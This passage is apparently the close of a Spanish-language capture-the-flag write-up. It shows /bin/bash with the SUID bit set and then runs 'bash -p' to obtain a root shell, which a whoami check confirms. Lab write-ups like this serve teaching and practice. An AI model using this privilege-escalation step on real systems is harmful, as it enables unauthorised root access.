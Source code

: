 Info:

```
-rwsr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash
```

Vemos que ha funcionado, por lo que escalaremos a `root` de esta forma:

```shell
bash -p
```

Info:

```
bash-5.2# whoami
root
```

Con esto veremos que ya seremos `root`, por lo que habremos terminado la maquina.
